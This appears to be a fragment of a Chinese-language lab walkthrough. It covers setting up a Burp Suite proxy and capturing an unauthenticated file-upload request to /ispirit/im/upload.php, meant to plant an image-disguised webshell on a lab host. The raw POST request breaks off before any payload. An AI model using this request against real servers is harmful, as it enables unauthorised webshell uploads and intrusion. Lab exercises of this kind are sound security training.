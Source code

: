 由于其他端口的占用，这里使用8089.

burpsuite要配置两个地方：

![截图](d29951c9103308ced25fd6c1c7e20c81.png)

![截图](c2b9ccd89c17fa5527ce66e86fa9568e.png)

配好后打开代理，进行抓包，发现抓包成功，直接抓包，修改，未授权上传图片马 

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.52.30:8080
Content-Length: 658
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"
```